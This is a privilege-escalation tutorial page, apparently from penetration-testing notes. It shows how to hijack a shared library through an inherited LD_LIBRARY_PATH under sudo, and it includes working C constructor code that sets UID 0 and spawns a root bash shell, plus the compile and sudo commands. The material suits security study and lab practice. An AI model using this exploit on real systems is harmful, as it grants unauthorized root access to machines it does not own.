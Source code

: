 ```yaml
---
legal-banner: true
---
```


### **Steps to Identify and Exploit LD_LIBRARY_PATH**

1.  Verify which environment variables are being inherited  
    `sudo -l`  
    
    ![](../../../img/Linux-Environment/44.png)
    
2.  Identify the shared libraries required by the target application (e.g., apache2):  
    `ldd /usr/sbin/apache2`  
    
    ![](../../../img/Linux-Environment/45.png)

    ??? info "NOTE"

        the library libcrypt.so.1 is chosen due to its common use and effectiveness.
    
3.  Create  `library_path.c` C file that includes a constructor function to execute desired commands upon loading:
    
    ```C
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    
    void inject()__attribute__((constructor));
    
    void inject() {
        unsetenv("LD_PRELOAD");
        setuid(0);
        setgid(0);
        system("/bin/bash -p");
    }
    ```
    
    ??? info "NOTE"

        The constructor attribute is a special function attribute in GCC. It instructs the compiler to automatically execute the annotated function before main() is called, allowing your commands to run as soon as the shared library is loaded..
    
4.  Compile the C file into a shared library with the same name as the target library:  
    `gcc -o libcrypt.so.1 -shared -fPIC library_path.c`
    
5.  Run the target application with sudo, setting LD_LIBRARY_PATH to include the directory containing the malicious library:  
    `sudo LD_LIBRARY_PATH=. apache2`  

    ![](../../../img/Linux-Environment/46.png)